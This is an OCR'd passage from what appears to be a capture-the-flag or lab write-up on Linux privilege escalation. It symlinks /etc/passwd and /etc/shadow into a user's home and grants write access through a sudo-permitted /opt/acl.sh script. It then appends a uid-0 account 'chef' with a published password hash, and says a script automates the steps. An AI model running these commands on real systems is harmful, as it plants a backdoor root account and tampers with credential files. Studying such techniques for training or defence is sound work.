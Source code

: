    ```bash
   ln -s /etc/passwd /home/mtz/passwd
   ln -s /etc/shadow /home/mtz/shadow
2. **Modify Permissions**:

- Use `/opt/acl.sh` to grant `mtz` write permissions to the symbolic links.

  ```bash
  sudo /opt/acl.sh mtz rwx /home/mtz/passwd
  sudo /opt/acl.sh mtz rwx /home/mtz/shadow
`
  ### Update `passwd` and `shadow` Files

- Edit the `/home/mtz/passwd` and `/home/mtz/shadow` files to add a new root user with a known password hash.generate your own
- password hash with openssl and if you want to use mine the pasword is 'naruto'

  ```bash
  echo 'chef:x:0:0:root:/root:/bin/bash' >> /home/mtz/passwd
  echo 'chef:$6$m.8UCPi1Mj9FRFMK$OR6ubVYKZzE9UFiGm4ahw0t680nd5m//Wj55/0apx9NjfyOML8bvTi19Bh7JfAEW0wm59BE5dp17VrKpu8UCI0:19742:0:99999:7:::' >> /home/mtz/shadow
`
switch to the new user 'chef' and youre root
i also wrote a script that does the escalation from mtz to root easily check the folder
